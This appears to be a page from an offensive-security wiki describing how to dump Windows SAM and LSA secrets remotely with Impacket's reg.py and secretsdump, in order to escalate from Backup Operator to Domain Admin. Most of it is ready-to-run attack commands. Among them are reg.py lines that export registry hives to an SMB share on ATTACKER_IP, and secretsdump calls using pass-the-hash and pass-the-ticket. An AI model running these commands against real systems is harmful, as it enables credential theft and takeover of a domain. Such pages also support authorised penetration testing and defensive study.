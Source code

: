 {% tabs %}
{% tab title="UNIX-like" %}
### Reg.py

[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can be used to remotely save hives from an UNIX-like machine. For instance, this can be used to easily escalate from a [Backup Operator](../../../../../ad/movement/domain-settings/builtin-groups/) member to a Domain Admin by dumping a Domain Controller's secrets and use them for a [DCSync](dcsync.md).

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

```bash
# start an SMB share
smbserver.py -smb2support "someshare" "./"

# save each hive manually
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

# Or backup all SAM, SYSTEM and SECURITY hives at once
reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
```

### Secretsdump

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../../../../ad/movement/kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k -no-pass 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
